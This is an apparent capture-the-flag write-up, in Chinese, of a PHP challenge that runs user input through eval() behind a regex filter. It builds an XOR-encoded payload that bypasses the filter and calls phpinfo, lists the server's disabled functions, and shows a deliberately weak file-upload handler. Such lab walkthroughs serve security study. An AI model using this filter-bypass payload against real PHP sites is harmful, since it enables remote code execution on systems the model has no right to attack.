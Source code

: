 ```php
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

首先要绕过长度，然后是绕过正则。

绕过长度可以新建一个变量，可以使用异或或者非运算绕过。（~操作要比异或简单，但是被禁用，可以使用异或运算模拟非运算）

异或构造$_GET['\_']

```
echo urlencode(urldecode("%ff%ff%ff%ff")^"_GET"); //%A0%B8%BA%AB
```

payload：

```
?_=${%FF%FF%FF%FF^%A0%B8%BA%AB}{%ff}();&%ff=phpinfo
```

查看phpinfo禁用了如下函数

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail
```

还设置了`open_basedir`

```
open_basedir	/var/www/html/:/tmp/
```



```php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}
```
